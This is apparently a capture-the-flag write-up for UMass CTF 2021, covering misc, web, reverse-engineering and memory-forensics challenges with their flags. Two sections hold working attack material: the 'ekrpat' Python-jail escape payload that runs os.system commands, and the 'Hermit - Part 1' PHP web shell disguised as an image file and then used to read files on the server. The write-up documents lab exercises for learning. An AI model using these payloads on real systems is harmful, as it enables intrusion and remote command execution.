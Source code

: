 # UMass CTF 2021

## misc
### Discord

Join their discord server https://discord.gg/EhBJhbDcjc you can find the flag in
the description of the general channel.

Flag: `UMASS{discord_is_better_than_irc_change_my_mind}`

### Scan Me

In this challenge, we get an XCF file which apparently is used in the image
editing software GIMP. So we install gimp and open the file in it. There are
two layers in the image. After hiding the first layer we see a QR code under it
which is slightly broken. I just copied one of the big corner squares and it
worked.

![](qr_gimp.png)

Flag: `UMASS{QR-3Z-m0d3}`

### ekrpat

It is a python jail in which we only get one chance for input. The first garbled
text is written using a dvorak keyboard mapped to qwerty. It is simply asking us
to type 'dvorak' for the first prompt and our payload in the second.

```
$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')
-snip-
flag
-snip-
```

```
$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag')
UMASS{dvorak_rules}
```

Flag: `UMASS{dvorak_rules}`


## web
### Hermit - Part 1

We craft and upload a special file called `shell.png`:

```
ÿØÿà
[pre]
&lt;?php passthru($_GET['c']); ?&gt;
[/pre]
```

Then we simply go around the filesystem looking for the flag using the c param:

```
http://104.197.195.221:8086/show.php?filename=oUVGBv&c=ls%20-l%20/home/hermit/
-r-------- 1 hermit hermit 42 Mar 26 02:50 /home/hermit/userflag.txt

http://104.197.195.221:8086/show.php?filename=oUVGBv&c=cat%20/home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### PikCha

In this challenge, we are given a link to a web page in which an image of four
pokemons appears and we need to enter their pokemon index number in the text box
below separated by spaces. Luckily for us, the answer is already given as part
of the cookie we receive.

I wrote a python script to automate this for us since there are 500 of such
images that we need to successfully answer and decoding and going about it
manually would take a lot of time.

```
import requests
import base64
import re

s = requests.Session() 
r = s.get('http://104.197.195.221:8084/')

for i in range(500):
    a = base64.b64decode(r.cookies['session'].split('.')[0] + '===').decode()
    f = re.findall('\[(.*)\]', a)[0]
    l = f.split(',')
    r = s.post('http://104.197.195.221:8084/', data = {'guess': ' '.join(l)})
    print(r.text)
```

Flag: `UMASS{G0tt4_c4tch_th3m_4ll_17263548}`

### Heim

In this challenge, we can "register" on the given website with our Viking name.
After that we get an authorization JWT. Taking a hint from BEARER written on the
home page, I inserted the JWT in the HTTP request to the home page as part of
the Authorization: Bearer token header.

This redirects us to a another page /heim in which we get the entire list of
endpoints. One of those endpoints is /flag. When we try to visit flag with our
own account, it says that only AllFather Odin is allowed here. So we go back to
the registration and register as Odin. Now if we put the JWT in the bearer and
visit the flag page, we are granted access.

Flag: `UMASS{liveheim_laughheim_loveheim}`

### Hermit - Part 2

```
$ nc 34.121.84.161 8087
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
^C
```


## rev
### easteregg

We get an ELF 64-bit binary. It is an adventure game. After decompiling it we
see that there is a special input command "jhiezetfmvirlnjfbobk" which when
inserted will set a variable to 1.

```
else if ( !strcmp(s1, "jhiezetfmvirlnjfbobk") )
{
  JHIEZETFMVIRLNJFBOBK = 1;
}
```

When this variable is set, the following code will run:

```
if ( JHIEZETFMVIRLNJFBOBK )
{
  for ( i = 0; i <= 34; ++i )
    putchar(COJASZQHPZXKLAPHRHOK[i] ^ LHEIBZNXEKQSAPHHUWTQ[i]);
  putchar(10);
}
```

I wrote a simple python script to XOR the flag, instead of figuring out how to
do it in the game:

```
x = [ 0x12, 0x18, 0x08, 0x0A, 0x10, 0x37, 0x37, 0x66, 0x28,
        0x17, 0x78, 0x60, 0x67, 0x29, 0x18, 0x26, 0x7, 0x2B,
        0x37, 0x28, 0x0B, 0x35, 0x76, 0x37, 0x20, 0x11, 0x2F,
        0x37, 0x24, 0x64, 0x37, 0x2A, 0x7A, 0x3E, 0x35 ]
y = 'GUIYCLZVEHIPWBGOXHVFTGEVDNNDWWZHKGH'


s = ''
for i,j in zip(x,y):
    s += chr(i^ord(j))

print(s)
```

Flag: `UMASS{m0m_100k_i_can_r3ad_ass3mb1y}`

## forensics
### notes

Here we get a memdump of some Windows machine. We determine the profile using
volatility's imageinfo function:

```
$ ./volatility -f image.mem imageinfo
-snip-
Suggested Profile(s) : Win7SP1x64
-snip-
```

Then we take a screenshot:

```
$ ./volatility -f image.mem  --profile=Win7SP1x64 --dump-dir . screenshot
```

![](session_1.WinSta0.Default.png)

We see that notepad is open with a file `passwords.txt` so we'll dump notepad's
process memory and see if we can find the flag there.

```
$ ./volatility -f image.mem --profile=Win7SP1x64 pslist | grep notepad
0xfffffa8000dd0060 notepad.exe            2696   2288      4      309      1      0 2021-03-20 17:59:34 UTC+0000

$ ./volatility -f image.mem --profile=Win7SP1x64 memdump --dump-dir . -p 2696
```

Once we have the process dump, we can grep for the flag:

```
$ strings -e l ./2696.dmp | grep "UMASS" -B 10 -A 10 | vim -
```

Flag: `UMASS{$3CUR3_$70Rag3}`

## chains

Collatz problem
